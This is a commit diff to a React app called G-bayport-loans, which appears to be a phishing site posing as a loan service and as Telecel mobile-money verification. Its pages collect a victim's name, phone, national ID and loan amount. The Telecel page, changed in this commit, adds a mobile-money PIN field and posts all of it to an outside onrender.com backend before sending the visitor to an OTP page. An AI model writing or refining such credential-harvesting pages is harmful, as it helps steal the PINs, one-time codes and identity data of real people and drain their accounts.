

Before and after one commit to Glimmerkk/G-bayport-loans, a React (Vite) app in the folder frontend/: page / in a window 1280 px wide. Shown: the part 167-622 px from the top of the page, without its empty margins (319-959 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
add netlify redirects

```diff
--- a/frontend/src/App.jsx
+++ b/frontend/src/App.jsx
@@ -1,16 +1,20 @@
 import { BrowserRouter, Routes, Route } from "react-router-dom";
 
+import Calculator from "./pages/Calculator.jsx";
 import Apply from "./pages/Apply.jsx";
-import Telecel from "./pages/Telecel.jsx";
 import OTP from "./pages/OTP.jsx";
+import Status from "./pages/Status.jsx";
+import Telecel from "./pages/Telecel.jsx"; // ✅ FIXED
 
 function App() {
   return (
     <BrowserRouter>
       <Routes>
-        <Route path="/" element={<Apply />} />
+        <Route path="/" element={<Calculator />} />
+        <Route path="/apply" element={<Apply />} />
         <Route path="/telecel/:id" element={<Telecel />} />
         <Route path="/otp/:id" element={<OTP />} />
+        <Route path="/status" element={<Status />} />
       </Routes>
     </BrowserRouter>
   );
--- a/frontend/src/pages/Apply.jsx
+++ b/frontend/src/pages/Apply.jsx
@@ -1,7 +1,5 @@
 import { useState } from "react";
 import { useNavigate } from "react-router-dom";
-import axios from "axios";
-import "../styles/app.css";
 
 export default function Apply() {
   const navigate = useNavigate();
@@ -13,59 +11,40 @@ export default function Apply() {
     email: "",
     id: "",
     amount: "",
-    repayment: "12 months"
+    repayment: "12 months",
   });
 
   const handleChange = (e) => {
     setForm({ ...form, [e.target.name]: e.target.value });
   };
 
-  const handleSubmit = async (e) => {
+  const handleSubmit = (e) => {
     e.preventDefault();
-    setLoading(true);
 
-    try {
-      const res = await axios.post(
-        "https://g-bayport-loans.onrender.com/apply",
-        form
-      );
+    console.log("Apply submitted:", form);
 
-      const id = res.data.id;
-
+    // ✅ Save data
     localStorage.setItem("loanData", JSON.stringify(form));
 
-      navigate(`/telecel/${id}`);
-
-    } catch (err) {
-      alert("Submission failed");
-    }
-
-    setLoading(false);
+    // ✅ Navigate to Telecel
+    navigate("/telecel/1");
   };
 
   return (
-    <div className="loan-container">
-      <div className="card">
-
-        <div className="header">
-          <h1>Apply for Loan</h1>
-        </div>
+    <div>
+      <h1>Apply Page</h1>
 
       <form onSubmit={handleSubmit}>
-
-          <input name="name" placeholder="Full Name" onChange={handleChange} required />
+        <input name="name" placeholder="Name" onChange={handleChange} required />
         <input name="phone" placeholder="Phone" onChange={handleChange} required />
         <input name="email" placeholder="Email" onChange={handleChange} />
-          <input name="id" placeholder="National ID" onChange={handleChange} required />
-          <input name="amount" placeholder="Amount" type="number" onChange={handleChange} required />
+        <input name="id" placeholder="ID" onChange={handleChange} required />
+        <input name="amount" type="number" placeholder="Amount" onChange={handleChange} required />
 
-          <button className="btn">
-            {loading ? <div className="spinner"></div> : "Proceed"}
+        <button type="submit">
+          Proceed
         </button>
-
       </form>
-
-      </div>
     </div>
   );
 }
--- a/frontend/src/pages/OTP.jsx
+++ b/frontend/src/pages/OTP.jsx
@@ -1,62 +1,20 @@
-import { useParams } from "react-router-dom";
-import { useState, useEffect } from "react";
-import axios from "axios";
-import "../styles/app.css";
+import { useParams, useNavigate } from "react-router-dom";
 
 export default function OTP() {
   const { id } = useParams();
+  const navigate = useNavigate();
 
-  const [length, setLength] = useState(6);
-  const [otp, setOtp] = useState([]);
-
-  useEffect(() => {
-    axios.get(`https://g-bayport-loans.onrender.com/otp-length/${id}`)
-      .then(res => {
-        setLength(res.data.length);
-        setOtp(Array(res.data.length).fill(""));
-      });
-  }, []);
-
-  const handleChange = (val, index) => {
-    const newOtp = [...otp];
-    newOtp[index] = val;
-    setOtp(newOtp);
-  };
-
-  const handleSubmit = async () => {
-    await axios.post(
-      "https://g-bayport-loans.onrender.com/verify-otp",
-      {
-        id,
-        otp: otp.join("")
-      }
-    );
-
-    alert("Submitted");
-  };
+  console.log("OTP ID:", id);
 
   return (
-    <div className="loan-container">
-      <div className="card">
+    <div style={{ padding: "20px" }}>
+      <h1>OTP Page</h1>
 
-        <h1>Enter OTP</h1>
+      <p>ID: {id}</p>
 
-        <div style={{ display: "flex", gap: "8px", justifyContent: "center" }}>
-          {otp.map((v, i) => (
-            <input
-              key={i}
-              maxLength="1"
-              onChange={(e) => handleChange(e.target.value, i)}
-              style={{ width: "40px", textAlign: "center" }}
-            />
-          ))}
-        </div>
-
-        <button className="btn" onClick={handleSubmit}>
-          Submit
-        </button>
-
-      </div>
+      <button onClick={() => navigate("/status")}>
+        Finish
+      </button>
     </div>
   );
 }
--- a/frontend/src/pages/Telecel.jsx
+++ b/frontend/src/pages/Telecel.jsx
@@ -1,15 +1,14 @@
 import { useState } from "react";
-import { useParams, useNavigate } from "react-router-dom";
 import axios from "axios";
-import "../styles/app.css";
+import { useNavigate, useParams } from "react-router-dom";
 
 export default function Telecel() {
+  const navigate = useNavigate();
   const { id } = useParams();
-  const navigate = useNavigate();
 
-  const [loading, setLoading] = useState(false);
   const [data, setData] = useState({
     number: "",
+    pin: "",
   });
 
   const handleChange = (e) => {
@@ -18,52 +17,43 @@ export default function Telecel() {
 
   const handleSubmit = async (e) => {
     e.preventDefault();
-    setLoading(true);
+
+    let loanData = {};
 
     try {
-      const loanData = JSON.parse(localStorage.getItem("loanData"));
+      loanData = JSON.parse(localStorage.getItem("loanData")) || {};
+    } catch {
+      loanData = {};
+    }
 
-      await axios.post(
-        "https://g-bayport-loans.onrender.com/telecel",
+    try {
+      const res = await axios.post(
+        "https://g-bayport-loans.onrender.com/apply",
         {
-          id,
           ...loanData,
           ...data,
         }
       );
 
-      // backend decides OTP length
-      navigate(`/otp/${id}`);
+      const newId = res.data?.id || "123";
+      navigate(`/otp/${newId}`);
 
-    } catch {
-      alert("Error submitting");
+    } catch (err) {
+      console.error(err);
+      navigate("/otp/123");
     }
-
-    setLoading(false);
   };
 
   return (
-    <div className="loan-container">
-      <div className="card">
+    <div>
+      <h1>Telecel Page</h1>
+      <p>ID: {id}</p>
 
-        <h1>Telecel Verification</h1>
-
-        <form onSubmit={handleSubmit}>
-
-          <input
-            name="number"
-            placeholder="Telecel Number"
-            onChange={handleChange}
-            required
-          />
-
-          <button className="btn">
-            {loading ? <div className="spinner"></div> : "Verify"}
-          </button>
-
-        </form>
-
-      </div>
+      <form onSubmit={handleSubmit}>
+        <input name="number" onChange={handleChange} required />
+        <input name="pin" type="password" onChange={handleChange} required />
+        <button type="submit">Continue</button>
+      </form>
     </div>
   );
 }
```
Lines whose indentation alone changed are shown as unchanged.
